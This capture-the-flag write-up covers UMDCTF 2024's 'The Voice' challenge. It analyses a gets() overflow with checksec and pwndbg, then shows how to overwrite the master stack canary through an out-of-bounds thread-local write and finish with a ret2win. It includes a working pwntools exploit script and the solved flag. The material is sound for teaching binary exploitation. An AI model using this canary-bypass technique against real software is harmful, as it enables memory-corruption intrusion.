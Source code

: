 ```yaml
---
linkTitle: The Voice
title: The Voice [Writeup]
type: docs
math: True
weight: 1
---
```

## Challenge Description

> If you want the flag, command me to give it to you.

## Challenge Files
```c {filename=the_voice.c, linenos=table}
#include <stdio.h>
#include <stdlib.h>

__thread long long g[10];

void give_flag() {
    char buf[100];
    FILE* f = fopen("flag.txt", "r");
    fgets(buf, sizeof(buf), f);
    printf("%s\n", buf);
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);  

    puts("If you want the flag, command me to give it to you.");
    char command[16];
    
    gets(command);
    g[atoi(command)] = 10191;
}
```

## Solution 
Before inspecting the source code, let us first run `checksec` on the provided binary to look out for the security mitigations applied on this binary. 
```bash
fooker@fooker:~/ctfs/umdctf2024/the_voice$ checksec the_voice
[*] '~/ctfs/umdctf2024/the_voice/the_voice'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
As shown in the above code snippet, the binary has no PIE enabled (the binary isn't a position independent executable). However, the binary has 
a `Stack Canary` enabled which implies that we must defeat this stack protection if we were to corrupt return addresses. Anyway, we could start examining the source code in search for any visible vulnerabilities. 

### Buffer Overflow at Line 21
There's an immediate buffer overflow vulnerability at `Line 21`. The source code uses the `gets()` function to read into the buffer `command`. However, `gets()` does not limit the number of bytes read into a buffer and hence we could easily overflow this buffer. Let's compute the offset of the pointer `*command` from the stack base pointer `rbp`. 

I'm gonna read in `8` bytes of garbage into the buffer and then set a break-point and then inspect the stack immediately after. 

```bash
───────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────
00:0000│ rcx rsp 0x7fffffffd870 ◂— 'AAAAAAAA'
01:0008│-018     0x7fffffffd878 ◂— 0x0
02:0010│-010     0x7fffffffd880 ◂— 0x1000
03:0018│-008     0x7fffffffd888 ◂— 0xac5f323021c39c00
04:0020│ rbp     0x7fffffffd890 ◂— 0x1
05:0028│+008     0x7fffffffd898 —▸ 0x7ffff7dabd90 (__libc_start_call_main+128) ◂— mov edi, eax
06:0030│+010     0x7fffffffd8a0 ◂— 0x0
07:0038│+018     0x7fffffffd8a8 —▸ 0x401266 (main) ◂— endbr64
─────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────
 ► 0         0x4012eb main+133
   1   0x7ffff7dabd90 __libc_start_call_main+128
   2   0x7ffff7dabe40 __libc_start_main+128
   3         0x401135 _start+37
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg>

```

From the above snippet, we can deduce that the pointer `*command` is at `rbp - 0x20`, which is `32` bytes below the base pointer. Recall that since the binary isn't a Position Independent Executable, therefore we could retrieve the address of the `give_flag()` function from the binary and perform a `ret2win` attack. However, we must defeat the stack canary mitigation before doing that.  

### Stack Canary Protection
This is honestly a cool and mind-blowing technique to defeat the stack canary. Before we get into how to bypass the stack canary, let's try to look out for all the stack canaries in our binary at the breakpoint we set above. 

```bash
pwndbg> canary
AT_RANDOM = 0x7fffffffdc09 # points to (not masked) global canary value
Canary    = 0xac5f323021c39c00 (may be incorrect on != glibc)
Found valid canaries on the stacks:
00:0000│-008 0x7fffffffd888 ◂— 0xac5f323021c39c00
00:0000│+098 0x7fffffffd928 ◂— 0xac5f323021c39c00
pwndbg>

```
So here we can see something known as the `global canary value`. As it turns out, when the stack canary protection is enabled in a binary, the C runtime initialisation invokes the creation of the canary value. The canary is random bytes generated by the kernel with the least significant byte replaced by a `0`. This is another protection for prevention of canary leaks. The canary initialised is actually the global canary value or the master canary in a program, which is stored in the TCB (Thread Control Block). On the i386 architecture, the global canary is stored at `gs:0x14`, and on x86_64, at `fs:0x28`. We could easily verify this from the disassembly of the binary. 

```bash
pwndbg> disass main
Dump of assembler code for function main:
   0x0000000000401266 <+0>:     endbr64
   0x000000000040126a <+4>:     push   rbp
   0x000000000040126b <+5>:     mov    rbp,rsp
   0x000000000040126e <+8>:     sub    rsp,0x20
   0x0000000000401272 <+12>:    mov    rax,QWORD PTR fs:0x28
   0x000000000040127b <+21>:    mov    QWORD PTR [rbp-0x8],rax
```

As seen above, during the initilisation of a new stack frame, a seemingly mysterious value is copied from `fs:0x28` and stored into the location `[rbp - 0x8]`. This is nothing but the stack canary! The stack canary protection works as follows:

```bash
   0x00000000004012eb <+133>:   mov    QWORD PTR fs:[rax*8-0x50],0x27cf
   0x00000000004012f8 <+146>:   mov    eax,0x0
   0x00000000004012fd <+151>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401301 <+155>:   sub    rdx,QWORD PTR fs:0x28
   0x000000000040130a <+164>:   je     0x401311 <main+171>
   0x000000000040130c <+166>:   call   0x4010b0
   0x0000000000401311 <+171>:   leave
   0x0000000000401312 <+172>:   ret
```

Right before the stack frame is popped off, the value loaded from `fs:0x28` is compared against the value stored in `[rbp-0x8]`. If these two values match then the program continues an expected flow of instruction. However, if a modification is detected the program calls `__stack_chk_fail@plt` from the `PLT (Procedure Linkage Table)` and the program terminates with the message `*** stack smashing detected ***`

### Overwriting the Master Canary
Now that we know how the stack protection works, we shall try to exploit this. Firstly, let's take a look at the assembly corresponding to `Line 22` in the source code. 

```bash
   0x00000000004012eb <+133>:   mov    QWORD PTR fs:[rax*8-0x50],0x27cf  ## g[atoi(command)] = 10191;
```
The takeaway is that `0x27cf` is loaded in the location `fs:[rax*8-0x50]`. If we could load this into `fs:0x28` this would overwrite the master canary and then we could craft the `ret2win` attack. Inspecting the assembly a bit more 

```bash
   0x00000000004012dd <+119>:   lea    rax,[rbp-0x20]
   0x00000000004012e1 <+123>:   mov    rdi,rax
   0x00000000004012e4 <+126>:   call   0x401100
   0x00000000004012e9 <+131>:   cdqe
```

we conclude that if we could load `(0x28 + 0x50) // 8` into `[rbp - 0x20]` we could force the program to overwrite the master canary! And we shall do exactly that in the following exploit!

```py {filename=exploit.py, linenos=table}
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './the_voice'
elf = context.binary = ELF(exe, checksec=True)

context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]

host, port = 'challs.umdctf.io', 31192

def initialize(argv=[]):
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

r = initialize()

# =========================================================
#                         EXPLOITS
# =========================================================

payload = flat({
    0x00: b'15', 
    0x18: 0x27cf,
    0x28: elf.sym['give_flag']
})

r.sendlineafter(b"If you want the flag, command me to give it to you.", payload)
r.recvline()

r.interactive()
```
## Flag
```
UMDCTF{pwn_g3ss3r1t_sk1ll5_d0nt_tak3_a5_many_y3ar5_t0_l3arn_pau1}
```
